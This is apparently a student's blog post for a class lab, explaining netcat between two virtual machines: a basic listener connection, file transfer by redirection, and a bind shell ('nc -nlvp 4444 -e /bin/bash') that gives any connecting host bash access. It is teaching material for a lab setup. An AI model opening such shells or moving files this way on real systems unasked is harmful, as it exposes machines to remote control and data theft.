 ```yaml
---
layout: post
title:  "Blog 11 - NETCAT - Reverse turnel"
date:   2020-11-20 11:59:25 -0700
categories: jekyll blogs
auther: "Namtae"
---
```

<h3>NETCAT COMMAND</h3>
<p>This week I have an extra credit for CIT 425 which using NETCAT command</p>
<p>This assignment required 2 vm machines and using ncat command for create a connection between the 2 machines</p>
In my case I'm naming my server machine is Bob and client machine is Alice

On the client machine(Alice) run <code>nc -nlvp 4444</code>
<ul>
    <li>n - numeric-only IP address</li>
    <li>l - listen mode</li>
    <li>p - port</li>
    <li>v - verbose</li>
    <li>4444 - port number 4444</li>
</ul>
This means at the client machine, we run this command for allowing the client to listen on port 4444

On the server machine (Bob) run <code>nc -nv [client's machine IP address] 4444
<ul>
    <li>n - numeric-only IP address</li>
    <li>v - verbose</li>
    <li>[client's machine IP address] - replace with the target machine</li>
</ul>
This mean at the server client, we run this command for connecting the client machine via port 4444


<h3>To transfer file</h3>
If you want to transfer a file from client command

At the server machine 
run <code>nc –nlvp 4444 > fromClient.txt</code>
<ul>
    <li>fromClient.txt - a file that will get a copy of the file that you copy from</li>
</ul>

At the client machine 
run <code>nc –nv [server machine's IP Address] 4444 < [file path]
<ul>
    <li>[server machine's IP Address] - replace this with the target IP address</li>
    <li>[file path] - replace this with your file path</li>
</ul>

<h3>Bind Shell</h3>
<p>At alice, execute: touch foo.bar (to make a file named foo.bar in current directory)</br>
At Alice, execute: <code>nc –nlvp 4444 –e /bin/bash</code><br>
At Bob, execute: <code>nc –nv ip.addr.of.alice 4444</code><br>
At Bob, type “ls” and press enter<br>
At Bob, type “whoami” and press enter<br>
<img src="https://github.com/namtaetech/namtaetech.github.io/blob/master/docs/_posts/assets/Picture1.png?raw=true"><br>
Explain why Bob is seeing these results for “ls” and “whoami”<br>
	Because when Alice run nc -nlvp 4444 -e /bin/bash, it is telling the listening port to have an environment of bash. So, anyone who connects to Alice using port 4444, they will be able to use bash command on Alice machine and be able to access her file system. </p>







